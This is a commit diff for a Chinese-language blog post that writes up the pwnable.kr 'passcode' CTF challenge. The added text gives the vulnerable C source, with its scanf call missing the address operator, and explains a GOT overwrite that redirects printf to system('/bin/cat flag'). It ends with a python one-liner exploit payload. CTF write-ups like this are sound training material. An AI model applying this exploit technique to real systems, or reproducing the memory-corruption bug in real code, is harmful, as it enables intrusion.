

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2015-07-24-toddler-s-bottle-writeup-pwnable-kr.md, in a window 1280 px wide and 1400 px high, scrolled down 9289 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update "Toddler's Bottle Writeup [pwnable.kr]"

```diff
--- a/_posts/2015-07-24-toddler-s-bottle-writeup-pwnable-kr.md
+++ b/_posts/2015-07-24-toddler-s-bottle-writeup-pwnable-kr.md
@@ -198,7 +198,67 @@
 > ssh passcode@pwnable.kr -p2222 (pw:guest)
 
 
-(preloading...)
+{% highlight c %}
+#include <stdio.h>
+#include <stdlib.h>
+
+void login(){
+	int passcode1;
+	int passcode2;
+
+	printf("enter passcode1 : ");
+	scanf("%d", passcode1);
+	fflush(stdin);
+
+	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
+	printf("enter passcode2 : ");
+        scanf("%d", passcode2);
+
+	printf("checking...\n");
+	if(passcode1==338150 && passcode2==13371337){
+                printf("Login OK!\n");
+                system("/bin/cat flag");
+        }
+        else{
+                printf("Login Failed!\n");
+		exit(0);
+        }
+}
+
+void welcome(){
+	char name[100];
+	printf("enter you name : ");
+	scanf("%100s", name);
+	printf("Welcome %s!\n", name);
+}
+
+int main(){
+	printf("Toddler's Secure Login System 1.0 beta.\n");
+
+	welcome();
+	login();
+
+	// something after login...
+	printf("Now I can safely trust you that you have credential :)\n");
+	return 0;
+}
+{% endhighlight %}
+
+对 C 语言熟悉的同学都能很轻易的发现，程序在调用 `scanf()` 函数来获取用户输入时，第二个参数没有传递参数地址而直接传递了参数，可能导致内存异常写入。
+
+通过 `gdb` 调试可以发现，输入的用户名 `name` 位于 `ebp-0x70`，`password1` 位于 `ebp-0x10`，`password2` 位于 `ebp-0xc`，由于这样的堆栈布局，导致了在输入用户名时可以覆盖到 `ebp-0x10`，也就是能控制 `password1` 的值，最终导致任意4字节写。
+
+这里由于堆栈不能执行，不能更改 GOT 指向 shellcode，但是可以直接修改 GOT 后将程序流程跳转到输出 flag 的部分，即 `system("/bin/cat flag");`，我们查看一下代码所处位置：
+
+![]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/passcode-1.png)
+
+可以看到代码处于 `0x080485e3`，我们通过更改 `printf()` 函数的 GOT 来让我们输入完 `password1` 后的 `printf()` 函数调用流程转到 `system("/bin/cat flag");` 处。
+
+`name` 与 `password1` 相差 `96 bytes`，所有构造的 payload 如下：
+
+	python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | ./passcode
+
+![]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/passcode-2.png)
 
 
 ### [random]
```
Also changed, not shown: public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/passcode-1.png (added), public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/passcode-2.png (added).
